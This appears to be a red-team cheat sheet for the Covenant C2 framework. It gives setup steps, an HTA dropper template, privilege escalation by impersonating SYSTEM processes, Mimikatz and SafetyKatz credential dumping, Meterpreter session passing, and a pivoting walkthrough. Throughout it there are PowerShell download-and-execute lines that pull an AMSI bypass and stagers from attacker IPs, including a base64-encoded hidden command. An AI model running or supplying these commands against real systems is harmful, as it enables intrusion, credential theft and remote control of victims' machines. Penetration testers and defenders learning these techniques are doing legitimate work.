 #c2
## Covenant C2 Framework
- https://github.com/cobbr/Covenant

### Installation
- https://github.com/cobbr/Covenant/wiki/Installation-And-Startup

#### Rastamouse version
```
wget -q https://packages.microsoft.com/config/ubuntu/19.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt -y update
sudo apt -y install apt-transport-https
sudo apt -y update
sudo apt -y install dotnet-sdk-3.1 dnsutils
rm packages-microsoft-prod.deb

git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant

dotnet build
dotnet run
```

### General
#### Start Covenant
```
/opt/Covenant/Covenant > dotnet run
```

#### Create a listener
- https://github.com/cobbr/Covenant/wiki/Listeners
- Give it a name and ConnectAdress the adress to Connect to

#### Create a launcher (For example PowerShell)
- Select a listener
- Click on Host and create a different url, for example ```\HTTPStager.ps1``` and click on Host!
- Copy the Launcher and Encoded Launcher codes
- If making an executable try both DotNetversions!

#### HTA script
- Use the command in the following HTA file
```
<script language="VBScript">
Function DoStuff()
Dim wsh
Set wsh = CreateObject("Wscript.Shell") 
wsh.run "[YOUR ENCODED LAUNCHER]" 
Set wsh = Nothing
End Function 
DoStuff
self.close 
</script>
```

#### Go back to listener and upload the HTA file

### Run c# executables on target
- Interact with the grunt.
- Go to tasks, select Assembly, select executable and run!
- Works with DotNet executables

### Escalate to system
- Run the task processlist and look for a process running as ```NT AUTHORITY\SYSTEM```
- Then run ImpersonateProcess ```ImpersonateProcess /processid:"<PROCESS ID>"```
- Then run the Launcher again to spawn another grunt. ```Powershell iex (New-Object Net.WebClient).DownloadString('http://175.12.80.10/Stgr.ps1')```
- Go back to the current context using task ```RevertToSelf```

### Dumping credentials
- From System or High integrity
#### Logon passwords
```
Mimikatz sekurlsa::logonpasswords
```

#### Cached credentials
```
LsaCache
```

#### SAM
```
Mimikatz lsadump::sam
```

#### SafetyKatz
```
SafetyKatz
```

### Impersonate
- For example when there is no RDP open and want to run on other credentials
- Open the grunt, Go to task and select "MakeToken"
- Enter the credentials and type Logontype ```LOGON32_LOGON_INTERACTIVE```

```
MakeToken /username:"<USER>" /domain:"<DOMAIN>" /password:"<PASSWORD>" /logontype:"LOGON32_LOGON_INTERACTIVE"
```

### Import scripts
- Interact with the grunt.
- Go to tasks, select PowerShellImport and select the powershell script

### Runas command
```
ShellRunAs /shellcommand:"whoami" /username:"<USERNAME>" /domain:"<DOMAIN>" /password:"<PASSWORD>"
```


#### Runas new shell example
```
ShellRunAs /shellcommand:"powershell -Sta -Nop -Window Hidden -Command \"iex (New-Object Net.WebClient).DownloadString('http://10.10.15.16:8080/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://10.10.15.16/HTTPStager.ps1')\"" /username:"<USERNAME>" /domain:"<DOMAIN>" /password:"<PASSWORD>"
```

### Session passing
#### Covenant --> Meterpreter
```
use exploit/multi/handler
setg payload windows/x64/meterpreter/reverse_https
setg lhost <IP>
setg lport <PORT>
setg exitfunc thread
setg exitonsession false
run -j

# Generate payload
use payload windows/x64/meterpreter/reverse_https
generate -f raw -o /tmp/sc.bin
```
- Go to covenant, select grun --> task --> Shellcode and choose the file

### Covenant pivoting Example
- **Got a shell but it didn't work? Just here for noting it down and looking at it later!**
- If need to pivot over a HOP but got a restricted amount of allowed ports. Example following setup:
  - Hop ip = 10.10.121.108 and got comprimised
  - Allowed ports 443, 8080 and 80.
  - Normal covenant running on port 80, 443 is used for chisel, 8080 for webserver.
  - Attacker IP = 10.10.15.16

### Steps
- Setup a new listener in Covenant, on port 8090 Set the 10.10.121.108 as ConnectAddresses and CONNECTPort to 8090.
- Create a PowerShell payload with the new listener and download the file, host this file on the webserver on 8080.
- Configure firewall rules

```
powershell netsh interface portproxy add v4tov4 listenaddress=10.10.121.108 listenport=8080 connectaddress=10.10.15.16 connectport=8080 protocol=tcp
powershell netsh interface portproxy add v4tov4 listenaddress=10.10.121.108 listenport=8090 connectaddress=10.10.15.16 connectport=80 protocol=tcp

# Optional if restricted access to the ports even!
powershell netsh advfirewall firewall add rule name="Allow from 10.10.122.15" dir=in action=allow protocol=ANY remoteip=10.10.122.15
```

- Execute shell example:
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.121.108:8080/amsi.txt")); IEX ((new-object net.webclient).downloadstring("http://10.10.121.108:8080/OttoHTTP.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip

powershell.exe -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA4ADoAOAAwADgAMAAvAGEAbQBzAGkALgB0AHgAdAAiACkAKQA7ACAASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA4ADoAOAAwADgAMAAvAE8AdAB0AG8ASABUAFQAUAAuAHAAcwAxACIAKQApAA==
```